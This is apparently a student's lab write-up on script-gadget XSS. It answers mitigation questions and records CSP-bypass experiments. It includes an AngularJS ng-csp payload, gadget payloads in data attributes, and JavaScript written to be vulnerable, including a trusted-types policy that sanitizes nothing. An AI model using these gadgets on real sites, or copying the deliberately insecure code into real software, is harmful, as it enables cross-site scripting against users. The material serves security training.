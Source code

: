 # Script Gadgets

## Answers

1. What could you do to mitigate/prevent the attack in the first exercise (Celsius to Fahrenheit Converter). Assume you can modify the application code.
    - Prevent XSS by properly encoding the parameter
    - Try to use CSP trusted types: probably wont work with AngularJS as - my current understanding - the framework has to support it too.
    - Change the framework (ok this would be a rewrite and can we be sure that the other framework doesn't have a vulnerability?)
2. Why does the CSP policy in the second exercise (Build your own script gadget) not prevent the execution of the alert function.
    - The CSP policy prevents inline scripts, eval etc. but I doesn't prevent normal html to be injected (setting innerHtml property). By inserting a "normal" html tag - by itself benign - the framework code in main.js, which listenes to dom changes, in interpretes the user code passed in the url und ultimatly elevates to to code that is executed.


## Steps taken

**Part one**
1. Trying to find XSS vulnerability
    - Celsius textbox  (using browser developer tools, I changed input type to text and could inject code)
        - or just edit url as it is a GET form
    - scripts are not executed due to CSP policy
2. Attack
-> injecting the following code via url parameter:  (url decoded for clarity)

```
<divng-appng-csp>
 <divng-focus="x=$event"id=ftabindex=0>foo</div>
 <divng-repeat="(key,value)inx.view">
   <divng-if=key=="window">{{value.alert=[1].reduce(value.alert,1337)}}</div>
 </div>
</div>

```
AngularJS will interpret the passed data and ultimatly execute the expression upon click.  


**Part 2: my own gadget**

Playing around with some payload (with CSP activated): 

- <div id="expression" data="alert" data-idx="1337">
    - will execute (from task)
- <div id="expression" data="eval" data-idx="'alert(999)'">
    - Will not be executed because of CSP policy (unsafe-eval not allowed).. browser work correctly :-)




## Playing around with trusted types

my CSP policy
`<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'; object-src 'none'; require-trusted-types-for 'script'; trusted-types myPol;">`

Bypassing trusted-types and with injected user code 
    - setAttribute is clearly not protected by trusted-types... 
    - this example of a vulnerability is probably not realistic as multiple url parameters have to be set in js code. However, could this still be a vulnerability in some frameworks??? quite a few use attributes...
```
// possible to run script: /gadget.html?inj=div&id=expression&data=alert&idx=999
const queryString = window.location.search;
const urlParams = new URLSearchParams(queryString);

let appEl = document.getElementById("app");

let newEl = document.createElement(urlParams.get('inj'))
newEl.setAttribute('id', urlParams.get('id'));
newEl.setAttribute('data', urlParams.get('data'));
newEl.setAttribute('data-idx', urlParams.get('idx'));
appEl.appendChild(newEl);


//document.getElementById("app").innerHTML = decodeURIComponent(ref);

document.addEventListener("DOMContentLoaded", function() {         
    if (expr =  document.getElementById("expression")) {
        let data = expr.getAttribute("data");
        let data_idx = expr.getAttribute("data-idx");
        // trick to execute function from string without eval
        var fn = window[data];
        var fnparams = [data_idx];
        if (typeof fn === "function") fn.apply(null, fnparams);
    }
});

```


Writing a useless sanitizer  (of course not a realistic example)
```
let ref=document.location.href.split("?inj=")[1];
let decodedCont = decodeURIComponent(ref);;

const uselessSanitizer = trustedTypes.createPolicy('myPol', {
    createHTML: string => string //string.replace(/</g, '&lz;')
    });
document.getElementById("app").innerHTML = uselessSanitizer.createHTML(decodedCont);

//document.getElementById("app").innerHTML = decodeURIComponent(ref); // code that is not allowed due to trusted types

document.addEventListener("DOMContentLoaded", function() {         
    if (expr =  document.getElementById("expression")) {
        let data = expr.getAttribute("data");
        let data_idx = expr.getAttribute("data-idx");
        // trick to execute function from string without eval
        var fn = window[data];
        var fnparams = [data_idx];
        if (typeof fn === "function") fn.apply(null, fnparams);
    }
});

```